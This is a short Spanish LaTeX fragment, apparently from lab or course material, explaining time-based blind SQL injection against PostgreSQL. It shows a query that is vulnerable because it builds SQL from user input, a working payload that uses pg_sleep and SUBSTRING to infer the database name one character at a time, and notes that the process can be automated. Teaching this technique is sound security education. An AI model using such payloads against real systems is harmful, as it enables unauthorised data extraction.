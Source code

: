 \documentclass[a4paper,12pt]{article}
\begin{document}
Supongamos que la aplicación ejecuta una consulta SQL vulnerable como la siguiente:

\begin{lstlisting}[language=SQL]
SELECT * FROM usuarios WHERE nombre = '${input}' AND contrasena = '${password}';
\end{lstlisting}

Un atacante podría enviar la siguiente entrada maliciosa para deducir el primer carácter del nombre de la base de datos:

\begin{lstlisting}[language=SQL]
' OR (CASE WHEN SUBSTRING((SELECT current_database()), 1, 1) = 'n' THEN pg_sleep(5) ELSE pg_sleep(0) END) --
\end{lstlisting}

Esto generará la siguiente consulta:

\begin{lstlisting}[language=SQL]
SELECT * FROM usuarios 
WHERE nombre = '' OR 
      (CASE WHEN SUBSTRING((SELECT current_database()), 1, 1) = 'n' 
            THEN pg_sleep(5) 
            ELSE pg_sleep(0) END) -- 
AND contrasena = '';
\end{lstlisting}

\textbf{Interpretación de resultados:}
\begin{itemize}
    \item Si la consulta provoca un retraso de 5 segundos, el atacante sabe que el primer carácter del nombre de la base de datos es \texttt{'n'}.
    \item Si no hay retraso, el carácter es diferente.
\end{itemize}

El proceso se repite para deducir cada carácter del nombre de la base de datos, reconstruyendo la información deseada.
Todo esto se puede automatizar mediante la implementación de scripts. Posteriormente veremos un ejemplo práctico de un script implementado para extraer datos
del laboratorio propuesto.

\subsection{Inyecciones implementadas}

En esta subsección presentamos varias variantes de inyecciones SQL basadas en tiempo que se aplican sobre un escenario ya descrito. Estas inyecciones permiten extraer información sin necesidad de recibir directamente datos sensibles en la respuesta, simplemente utilizando el comportamiento temporal de la base de datos para validar hipótesis sobre cada carácter.
\end{document}
